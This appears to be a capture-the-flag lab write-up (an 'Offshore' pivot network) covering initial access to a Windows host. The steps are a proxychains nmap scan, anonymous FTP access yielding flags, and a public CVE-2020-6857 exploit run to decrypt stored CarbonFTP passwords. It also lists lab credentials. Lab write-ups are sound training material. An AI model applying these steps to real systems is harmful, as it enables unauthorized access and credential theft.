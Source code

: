 ## Initial Access
to touch this machine must go through .123 proxychains to touch internal network
```bash
#Machine Information
HOSTNAME: JOE-LPTP
IP: 172.16.1.201
CREDENTIALS: JOE : Dev0ftheyear!
```
#nmap 
```bash
[root💀~/bugs_offshore/10.10.110.123] [10.10.14.39] [2023-08-08 16:25:34] 
 └─╼ # proxychains nmap -sT -Pn -v 172.16.1.201
Completed Connect Scan at 16:25, 78.76s elapsed (1000 total ports)
Nmap scan report for 172.16.1.201
Host is up (0.085s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp     # ran down anonymous and got credentials
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5800/tcp open  vnc-http
5900/tcp open  vnc   # Relevant later.
```
#1st #flag 
```bash
#the first flag was located on the desktop of the anonymous ftp session
[root💀~/bugs_offshore/172.16.1.201] [10.10.14.39] [2023-08-08 15:45:37] 
 └─╼ # cat flag.txt
OFFSHORE{st0p_us1ng_fr33warez!}
```

![[1ST FLAG.png]]
In the same location of the flag.txt was a Carbon FTP.lnk file. After pulling it down I researched Carbon FTP and found this PoC
![[CARBON FTP.png]]

- This PoC showed the location of where the password file is located under AppData
- the full path ended up being /appdata/roaming/neowise/CarbonFTPProjects
- I used the ftp get command to pull both the 2nd flag.txt as well as the password file.
![[FTP FLAG2.png]]
```bash
#flag2
[root💀~/bugs_offshore/172.16.1.201/flags] [10.10.14.39] [2023-08-08 15:58:17] 
 └─╼ # cat flag2.txt
OFFSHORE{An0N_FtP_c@n_rev3al_tr3asUre$}
```

![[2ND FLAG.png]]
I then pulled that PoC before onto my kali machine and used the command  below to crack the password
```bash
[root💀~/bugs_offshore/172.16.1.201] [10.10.14.39] [2023-08-08 16:02:12] 
 └─╼ # python3 48363.py -p 19852327402859129171335082736410993
[+] Neowise CarbonFTP v1.4
[+] CVE-2020-6857 Insecure Proprietary Password Encryption
[+] Version 2 Exploit fixed for Python 3 compatibility
[+] Discovered and cracked by hyp3rlinx
[+] ApparitionSec

 Decrypting ... 

```